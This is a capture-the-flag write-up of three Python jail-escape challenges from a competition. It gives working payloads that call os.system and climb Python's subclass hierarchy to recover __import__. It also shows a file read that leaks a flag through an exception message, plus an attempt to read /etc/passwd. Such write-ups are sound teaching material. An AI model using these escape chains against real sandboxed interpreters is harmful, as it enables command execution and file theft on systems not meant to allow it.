




Hi, on weekend i got time participate for Cyber Olympics Africa, which is continental annual competition that designed to address the cybersecurity skills gap and digital divide that persist in Africa, while helping the continent grow its status as an emerging technology hub.We ended up in the top 10 and are now prepared for the final.

## Jail Break


its actually a python sandbox escape challenge, for such challenge goal is to find way to execute system commands in order to find a flag

### connecting

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
Welcome To My Jail PlayGround Level1
Type 'exit' to leave the jail
>>> print("hi,lymo")
hi,lymo
Execution successful.
>>>
```

i executed print("hi,lymo") and i was abble do se an output, that means we can use some functions to interact with provided shell

### exploiting

lets party begin, since print() function executed why not trying other python function that will allow me to execute system command like `ls` , `cat` and `id`

Now lets check for variables, functions, classes, and modules that are defined

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
Welcome To My Jail PlayGround Level1
Type 'exit' to leave the jail
>>> print(dir())
['__builtins__']
Execution successful.
```

there only `__builtins__` module defined, so now lets check how many interesting functions are included in this module

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(dir(__builtins__))
['ArithmeticError', 'AssertionError', 
.......
......
__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'aiter', 'all', 'anext', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
Execution successful.
```

well there a lot of interested attributes, functions and module but i was looking for `__import__` which is function used to import python module, now lets see how we can use it 

the usage of `__import__` is

```
__import__('ModuleName').FunctionfromimportedModule('argurments')
```

so there module called `os` used to execute a system command called `system` they payload will look like

```
__import__('os').system('whoami')
```

this will import module `os` and execute `whoami` command using `system` function, lets try on our target,

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(__builtins__.__import__('os').system('whoami'))
nobody
0
Execution successful.
>>>
```

it gives us output `nobody` means our command executed,

well, from  [docs](https://python-reference.readthedocs.io/en/latest/docs/functions/__import__.html)  `__builtins__.__import__` can be used like  `__import__`  well so our finally payload will be

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(__import__('os').system('ls'))
bin
boot
dev
etc
flag.txt
home
jail.py
lib
.....
.....
var
0
Execution successful.
>>>
```

we can see the flag, now we get it by

```
malwarepeter@spaceX:~$ nc 16.16.65.31 30000
------
>>> print(__import__('os').system('cat flag.txt'))
acdfCTF{Cyb3rlymp1cs_w4rmup_pyj41l_v3ry_345y_r1ght?}
0
Execution successful.
>>>
```



Done!!, lets move on part two

---

## Jail Break 2


well, look for points its 4 times more than previously, so definitely there some hardness and filtering on it, well lets check it,

### connecting

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> hi
Oops! Something unexpected happened: name 'hi' is not defined
>>> print("hi,lymo")
hi,lymo
>>>
```

### exploiting

Now lets check for variables, functions, classes, and modules that are defined

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(dir())
['__builtins__']
```

there only `__builtins__` module imported, so now lets check how many interesting functions and attributes are included in this module

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(dir(__builtins__))
['__class__', '__cmp__', '__contains__', '__delattr__', '__delitem__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__gt__', '__hash__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'copy', 'fromkeys', 'get', 'has_key', 'items', 'iteritems', 'iterkeys', 'itervalues', 'keys', 'pop', 'popitem', 'setdefault', 'update', 'values', 'viewitems', 'viewkeys', 'viewvalues']
```

well fewer and not like previously,lets try our last payload direct

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(__import__('os').system('cat flag.txt'))
Oops! Something unexpected happened: name '__import__' is not defined
>>>

```

seems `__import__` is blocked and others, so i suffered for this challenge, and final i got idea of using tuple, after reading and reading 

> **_NOTE:_**  
with built-ins names disabled, () is still an object literal they can use to gain access to most of them

 
well, its challenging  but first we need to enumerate tuple so we can see how many of attributes and methods we can use.

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(dir(()))
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'count', 'index']
>>> print(dir(().__class__))
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__iter__', '__le__', '__len__', '__lt__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'count', 'index']
>>>
```

`print(dir(().__class__))` returned tuple class

well there builtin class called `__bases__`  used to get direct superclasses of a class,

> **_NOTE:_**  
Python provides a __bases__ attribute on each class that **can be used to obtain a list of classes the given class inherits**. The __bases__ property of the class contains a list of all the base classes that the given class inherits

so here from docs

```
instance.__class__ : The class to which a class instance belongs.

class.__bases__ : The tuple of base classes of a class object.

class.__subclasses__() : Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order. 
```

lets eximine

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!


>>> print(().__class__)
<type 'tuple'>

```

The above  output tells you that an empty tuple belongs to the `tuple` class in Python. It's a way to print the type of an object in Python.

```
>>> print(().__class__.__bases__)
(<type 'object'>,)


```

The above output tells you that the `tuple` class has a single base class, which is the `object` class. In Python, all classes ultimately inherit from the `object` class, making it the root of the class hierarchy in Python's object-oriented system.

It inherits directly from object. lets see what else does:

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__())
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```

there interesting thing is `<type 'file'>`

using this `file` object

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__()[40])
<type 'file'>
>>> print(().__class__.__bases__[0].__subclasses__()[40]("/etc/passwd").read())
Oops! Something unexpected happened: file() constructor not accessible in restricted mode
>>>
```

we got an error, after looking around there class called, `warnings.catch_warnings'` which is located in index 59

applying `_module` attribute 

```
>>> print(dir(().__class__.__base__.__subclasses__()[59]()._module))
['WarningMessage', '_OptionError', '__all__', '__builtins__', '__doc__', '__file__', '__name__', '__package__', '_getaction', '_getcategory', '_processoptions', '_setoption', '_show_warning', 'catch_warnings', 'default_action', 'defaultaction', 'filters', 'filterwarnings', 'formatwarning', 'linecache', 'once_registry', 'onceregistry', 'resetwarnings', 'showwarning', 'simplefilter', 'sys', 'types', 'warn', 'warn_explicit', 'warnpy3k']
>>>
```

A very interesting attribute appears, it is “__builtins__”.

> **_NOTE:_**  
The content of __ builtins __ is a dictionary of Python “builtins” functions containing, among other things, the __import__ function.

Once this function is located, all that remains is to import the `os` module which execute system commands using the `system` function of this module to obtain the flag.

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('whoami'))
nobody
0
>>>
```

we got it, now read the flag

```
malwarepeter@spaceX:~$  nc 16.16.65.31 31000
Initializing Playground...
.......
.......

Welcome to the Cyberlympic Phase2 jail! Type your commands below:
But remember, your code will be closely watched!
>>> print(().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('cat flag.txt'))
acdfCTF{35c4p3_pl4n_1337_w0rk3d_y35!!}
0
>>>
```



escaped Again,

---

## Jail Break 3



well it has 500 points which is 100 addition from jail break 2. so it could be a little harder . lets see

### connecting 

```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000

  _____  _________ ________  ___________ _______________________________ _______________   ________  ________
  /  _  \ \_   ___ \\______ \ \_   _____/ \_   ___ \__    ___/\_   _____/ \_____  \   _  \  \\_____  \\_____  \
 /  /_\  \/    \  \/ |    |  \ |    __)   /    \  \/ |    |    |    __)    /  ____/  /_\  \  /  ____/   _(__  <
/    |    \     \____|    `   \|     \    \     \____|    |    |     \    /       \  \_/   \/       \  /       \
\____|__  /\______  /_______  /\___  /     \______  /|____|    \___  /    \_______ \_____  /\_______ \/______  /
        \/        \/        \/     \/             \/               \/             \/     \/         \/       \/

                             Created By Abzee Saminu x Berry x Kismet

Let me tell you a secret, There is a flag here!
>> print("hi,lymo")
("That won't work here", 'print("hi,lymo")', '?')
('Exception:', SyntaxError('invalid syntax', ('<string>', 1, 7, 'x=print("hi,lymo")\n')))
>> __bultins__
("That won't work here", '__bultins__', '?')
('Exception:', NameError("name '__bultins__' is not defined",))
>> dir()
("That won't work here", 'dir()', '?')
>>
```


### exploiting

i noticed there two type of feedback we get

this when things go correct but seems there filter here
```
("That won't work here", 'dir()', '?')
```

and Exception feedback when thing goes wrong

```
('Exception:', NameError("name '__bultins__' is not defined",))
```

now, lets try import

```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000
.....
.....

Let me tell you a secret, There is a flag here!
>> import
("That won't work here", 'import', '?')
('Exception:', SyntaxError('invalid syntax', ('<string>', 1, 8, 'x=import\n')))
>>
```

i got Exception which i know because its a syntax error
lets try
```
import os
```

well i got new Exception message

```
>> import os
The quieter you become, The more you are able to hear
```

the message tryna give us hint refer "quieter" by using common sense

i had to google how to escape with quit

tried
```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000
.....
.....

Let me tell you a secret, There is a flag here!
>> quit()
("That won't work here", 'quit()', '?')
```

executed but the shell gone after that, that strange 

now back to our basic, see if we can execute basic command for enumeration

```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000
...
...

Let me tell you a secret, There is a flag here!
>> quit(dir())
("That won't work here", 'quit(dir())', '?')
['__builtins__', '__doc__', '__file__', '__name__', '__package__', 'ascii_text', 'blacklisted', 'func', 'x']

```

boom we got it, and we can `__builtins__` module and `__file__` attribute as well, 

its going to be a piece of cake from here

lets try simple payload from using `__builtins__`

```
Let me tell you a secret, There is a flag here!
>> quit(__builtins__['__import__']('os').system('cat flag.txt')))
The quieter you become, The more you are able to hear
malwarepeter@spaceX:~$
```

executed but no flag, and shell existed weird 

well after some time, as you check earlier when we used correct statement  but has syntax  we got two Exception together

```
>> import
("That won't work here", 'import', '?')
('Exception:', SyntaxError('invalid syntax', ('<string>', 1, 8, 'x=import\n')))
```

then trick is we can execute correct statement and use another function to  raise the an error then since the first payload worked then the output will display on error Exception message , bingo

```
malwarepeter@spaceX:~$ nc 16.16.65.31 32000
....
....

Let me tell you a secret, There is a flag here!
>> int(str('tanzania'))
("That won't work here", "int(str('tanzania'))", '?')
('Exception:', ValueError("invalid literal for int() with base 10: 'tanzania'",))
>> 
```

well as you notice, only output of `'tanzania'` returned without `str` that means  `str` executed but since it returned string which will raise an error to int, so output will be displayed,

we will inject payload to read `flag.txt` since result from `flag.txt` is `String` then will raise as error and flag will be displayed in error Exception of `int`
i used this payload

```
quit(int(().__class__.__base__.__subclasses__()[40]("flag.txt","r").read()))
```



bingo!!!, we got flag
This challenge was actually quite difficult for me, so I decided to take a break and return later with only 30 minutes left until the competition ended. It turned out to be a stroke of luck, haha!

i submitted flag when 1 sec remained


--------

## reference

https://stackoverflow.com/questions/73043035/what-is-class-base-subclasses

https://note.nkmk.me/en/python-issubclass-mro-bases-subclasses/

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins


